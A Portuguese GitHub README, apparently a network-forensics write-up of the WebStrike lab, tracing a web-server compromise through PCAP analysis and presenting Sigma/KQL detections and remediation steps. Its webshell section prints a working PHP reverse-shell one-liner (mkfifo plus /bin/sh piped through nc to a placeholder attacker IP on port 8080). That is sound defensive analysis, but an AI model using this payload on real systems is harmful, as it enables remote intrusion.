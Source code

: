 # WebStrike — Network Forensics & Detections  
**Autor:** Ricardo Almeida · **GitHub:** @The-Black-Needles · **Data:** 29/09/2025

## Contexto
Recebi um **PCAP** (tráfego capturado) do **servidor web** da empresa. Meu objetivo foi **confirmar um possível comprometimento**, entender **como** aconteceu e produzir **evidências, detecções e recomendações** acionáveis.

## Como conduzi a investigação (meu raciocínio)
1) **Mapeei os hosts e fluxos** no PCAP (Wireshark → *Statistics > Endpoints*).
2) **Contextualizei a origem** com **GeoIP** do IP externo suspeito.
3) **Busquei POST multipart** (upload) e indícios de **dupla extensão** em `filename=`; observei uma primeira tentativa falha e uma segunda bem-sucedida com `*.jpg.php` (exemplo genérico).
4) **Inspecionei o script** para confirmar **reverse shell** e **conexão de saída**.
5) **Procurei exfiltração** (picos de bytes **HTTP/HTTPS**) e padrões de automação.
6) **Consolidei evidências** em **timeline**; criei **regras Sigma/KQL** e **relatórios** técnico/executivo com recomendações.

## Principais achados (generalizados)
- **Entrada:** *Upload* malicioso via **dupla extensão** (`.jpg.php`) contornando validação.
- **Pós-exploração:** **Reverse shell** com **conexão de saída :8080** para IP externo.
- **Exfiltração:** **POST** em **443** com volume anômalo sugerindo envio de dados sensíveis.

## Recomendações objetivas (24–72h)
- **Bloquear IoCs** e saídas **:8080** não justificadas.
- **WAF/validação de upload:** negar **dupla extensão** e inspecionar `multipart`.
- **No-exec em `/uploads`** (impedir execução de scripts em diretórios de mídia).
- Reforçar **monitoramento/detecções** (Sigma/KQL) e perfis de **volume** em 443.

---

## Objetivos de investigação 

<summary><b>O1 — Origem do tráfego suspeito (GeoIP)</b></summary>

**De onde partiu a atividade maliciosa?  
**O que fiz:** levantei *top talkers* (Wireshark → Endpoints) e consultei **GeoIP** do IP externo.  
**Por que importa:** apoia *geo-blocking*, triagem de *threat intel* e contexto de risco.  
**Artefatos:** [`endpoints.txt`](20-network-analysis/tshark-commands.md) • [`timeline.md`](20-network-analysis/timeline.md)  

<summary><b>O2 — Identificação do agente cliente (User-Agent)</b></summary>

**Qual *User-Agent* foi usado na interação inicial?  
**O que fiz:** reconstruí **HTTP Stream** e inspecionei cabeçalhos; comparei com perfis legítimos.  
**Por que importa:** ajuda a criar **regras de filtragem** e detectar *tooling* disfarçado.  
**Artefatos:** [`wireshark-filters.md`](20-network-analysis/wireshark-filters.md) • `report-technical.md`  

<summary><b>O3 — Mecanismo de entrada (upload malicioso)</b></summary>

**Houve **upload de script** e como passou pela validação?  
**O que fiz:** filtrei `HTTP POST` multipart, busquei `filename=` e indícios de **dupla extensão**; confirmei sucesso do upload.  
**Por que importa:** evidencia **bypass de validação** e define **controles WAF**/hardening.  
**Artefatos:** [`web_upload_double_extension.yml`](30-detections/sigma/web_upload_double_extension.yml) • [`post_uploads.tsv`](20-network-analysis/tshark-commands.md)  
**Exemplo genérico:** `*.jpg.php` (exemplo **genérico**, não a resposta do lab).  

<summary><b>O4 — Local de armazenamento de uploads</b></summary>

**Onde o aplicativo armazena os arquivos enviados?  
**O que fiz:** segui **redirects** (HTTP 3xx) e navegação pós-upload para inferir o diretório.  
**Por que importa:** permite **remediação** (limpeza) e **no-exec** no diretório de mídia.  
**Artefatos:** [`timeline.md`](20-network-analysis/timeline.md) • `report-technical.md`  

<summary><b>O5 — Canal de comando e controle (reverse shell)</b></summary>

**Há **conexão de saída** para C2? qual **porta**?  
**O que fiz:** procurei padrões de **reverse shell** e conexões **outbound** atípicas; destaque para porta alta.  
**Por que importa:** base para **Egress Control** e detecção comportamental.  
**Artefatos:** [`reverse_shell_port_8080.kql`](30-detections/kql/reverse_shell_port_8080.kql) • `revshell.tsv`  

<summary><b>O6 — Tentativa de exfiltração</b></summary>

**Houve **envio de dados sensíveis** via HTTP/HTTPS?  
**O que fiz:** busquei **POST/PUT** com **alto volume** e padrões de `curl`/automação; sinalizei artefatos sensíveis (ex.: `/etc/passwd` como **exemplo genérico**).  
**Por que importa:** prioriza **resposta a incidentes** e criação de **regras de exfil**.  
**Artefatos:** [`web_exfil_high_volume.kql`](30-detections/kql/web_exfil_high_volume.kql) • `http_posts.tsv`  

---

## Como replicar (dados sintéticos)
Os artefatos abaixo incluem **consultas**, **regras** e **amostras sintéticas** para reproduzir consultas e visualizar o método, **sem** expor dados do laboratório.

- `20-network-analysis/` — filtros/extrações e timeline
- `30-detections/` — Sigma & KQL
- `50-reports/` — relatórios (técnico + executivo)

> **Licença:** MIT (apenas para o meu conteúdo autoral).  
> **Atribuição:** cenário inspirado no WebStrike Lab (link oficial na seção *references*).

---

## Análise do webshell (padrão de reverse shell — generalizado, sem spoilers)

Durante a inspeção do artefato de upload (webshell), identifiquei um **padrão clássico de reverse shell** em PHP
que orquestra FIFO em `/tmp` e inicia um shell interativo encaminhado via `nc` (*netcat*) para um **IP externo** e **porta alta**.

> **Snippet generalizado (placeholder):**
```php
<?php
system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 8080 >/tmp/f");
?>
```

- O comando `nc` indica **conexão de saída** para o **controlador** (C2).  
- A **porta-alvo** (no exemplo: **8080**) é um indicativo útil para **Egress Control** e detecção comportamental.
- Para fins de **ética/no-spoilers**, o endereço IP real foi substituído por `<ATTACKER_IP>`.

**Detecções relacionadas**
- [`reverse_shell_port_8080.kql`](30-detections/kql/reverse_shell_port_8080.kql) — monitoramento de conexões de saída para 8080.
- [`reverse_shell_nc_command.yml`](30-detections/sigma/reverse_shell_nc_command.yml) — detecção de *payloads* de upload contendo sequência de **FIFO + /bin/sh + nc** (quando o *logsource* captura corpo da requisição).
